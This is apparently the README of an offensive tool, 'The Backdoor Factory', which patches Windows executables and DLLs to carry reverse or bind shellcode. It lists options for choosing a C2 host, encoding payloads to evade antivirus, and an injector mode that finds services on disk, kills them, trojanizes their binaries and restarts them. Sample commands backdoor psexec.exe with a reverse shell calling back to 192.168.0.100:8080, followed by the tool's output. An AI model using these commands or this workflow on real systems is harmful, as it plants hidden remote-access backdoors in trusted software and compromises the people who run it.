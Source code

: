 ##The Backdoor Factory
Backdoors win32 PE files, to continue normal file execution (if the shellcode supports it), by patching the exe/dll directly.

Some executables have built in protections, as such this will not work on all PE files.  It is advisable that you test target PE files before deploying them to clients or using them in exercises.

Usage: ./backdoor.py -h

Usage: backdoor.py [options]

Options:
  -h, --help            show this help message and exit

  -f FILE, --file=FILE  File to backdoor
  
  -i HOST, --hostip=HOST
                        IP of the C2 for reverse connections
  
  -p PORT, --port=PORT  The port to either connect back to for reverse shells
                        or to listen on for bind shells
  
  -o OUTPUT, --output-file=OUTPUT
                        The backdoor output file
  
  -s SHELL, --shell=SHELL
                        Payloads that are available for use.
  
  -n NSECTION, --section=NSECTION
                        New section name must be less than seven characters
  
  -c, --cave            The cave flag will find code caves that can be used
                        for stashing shellcode.This will print to string all
                        the code caves of a specific size.The -l flag can be
                        use with this setting.
  
  -d DIR, --directory=DIR
                        This is the location of the files that you want to
                        backdoor.You can make a directory of file backdooring
                        faster by forcing the attaching of a codecave to the
                        exe by using the -a setting.
  
  -v, --verbose         For debug information output.
  
  -e ENCODER, --encoder=ENCODER
                        Encoders that can help with AV evasion.
  
  -l SHELL_LEN, --shell_length=SHELL_LEN
                        For use with -c to help find code caves of different
                        sizes
  
  -a, --add_new_section
                        Mandating that a new section be added to the exe
                        (better success) but less av avoidance
  
  -w, --change_access   This flag changes the section that houses the codecave
                        to RWE. Sometimes this is necessary. Enabled by
                        default. If disabled, the backdoor may fail.
  
  -j, --injector        This command turns the backdoor factory in a hunt and
                        shellcode inject type of mechinism. Edit the target
                        settings in the injector module.
  
  -u SUFFIX, --suffix=SUFFIX
                        For use with injector, places a suffix on the original
                        file for easy recovery


---
Features:

-After making a copy of the target file, the file copy will be patched directly.

-Finding all codecaves in an EXE/DLL.

-Injecting modified reverse/bind shells that allow continued execution after connection to the attacker.

-Modifying the PE/COFF header to add an additional section for all win32 executables/dlls, including those with an import table.

-Using the existing shellcode options, the ability to select PORT and HOST as connection options

-The ability to backdoor a directory of executables/dlls

-List all codecaves in the exe/dll

-Select the codecave in the exe/dll to backdoor, thereby not changing the filesize.

-Includes a simple XOR shellcode encoder.

---------------------------------------------
Sample Usage:

#Backdoor a exe/dll using an existing code cave:

./backdoor.py -f psexec.exe -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -e xor_encode 

The following caves can be used to inject code and possibly continue execution
use a number greater than the highest reference to add a code cave to the executable/dll
versus using an existing code cave.. Good luck:

1 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d2d5 End: 0x2d4d0; Cave Size: 507

2 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d4e9 End: 0x2d6d5; Cave Size: 492

3 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d6e3 End: 0x2d8d8; Cave Size: 501

4 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d8f1 End: 0x2dadd; Cave Size: 492

5 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dae7 End: 0x2dce0; Cave Size: 505

6 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dcf3 End: 0x2dee5; Cave Size: 498

7 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2defb End: 0x2e0ea; Cave Size: 495

8 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2e161 End: 0x2e390; Cave Size: 559

9 Section Name: .rsrc; Section Begin: 0x2f200 End: 0x5bc00; Cave begin: 0x2f578 End: 0x2f708; Cave Size: 400

10 Section Name: .rsrc; Section Begin: 0x2f200 End: 0x5bc00; Cave begin: 0x58a39 End: 0x58c68; Cave Size: 559

Enter your selection: 2

Using selection: 2

psexec.exe backdooring complete

File bd.psexec.exe is in current directory


---

#Backdoor an exe/dll by adding a code section:

./backdoor.py -f psexec.exe -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a -e xor_encode

Adding a new section to the exe/dll for shellcode injection

psexec.exe backdooring complete

File bd.psexec.exe is in current directory

---
#Backdoor a directory of exes:
./backdoor.py -d test/ -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a


...output too long for README...

---
#Hunt and backdoor: Injector
The injector module will look for target executables to backdoor on disk.  It will check to see if you have identified the target as a service, check to see if the process is running, kill the process and/or service, inject the executable with the shellcode, save the original file to either file.exe.old or another suffix of choice, and attempt to restart the process or service.  
Edit the python dictionary "list_of_targets" in the 'injector' module for targets of your choosing.

./backdoor.py -j -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a -u .moocowwow 
